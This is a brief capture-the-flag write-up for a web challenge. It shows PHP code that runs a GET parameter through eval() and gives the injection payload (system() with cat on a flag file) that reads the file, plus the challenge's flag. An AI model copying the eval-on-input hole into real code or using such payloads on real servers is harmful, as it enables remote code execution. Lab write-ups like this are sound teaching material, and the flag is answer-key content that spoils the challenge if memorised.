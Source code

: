 # Solve web07:

Upon accessing the web page, we don't see many available information - just a search page.

However, as it is possible to see in the code below, the value of the input is used in a eval function. Eval functions are pretty dangerous because it runs, literally, the input into the source code.

```
<div class="mt-4">
<?php
if (isset($_GET['code'])) {
    $code = $_GET['code'];
    
    // Impede o armazenamento em cache da página pelo navegador
    header("Cache-Control: no-store, must-revalidate");
    
    echo "<h3>Resultado:</h3>";
    eval($code);
}
?>
</div>
```

# Exploit:

To exploit this challange it's very simple, just send:

```
echo system("cat /var/www/html/flag.txt")
```

The flag will be `iFlag{3v41_15_n0t_g00d}`
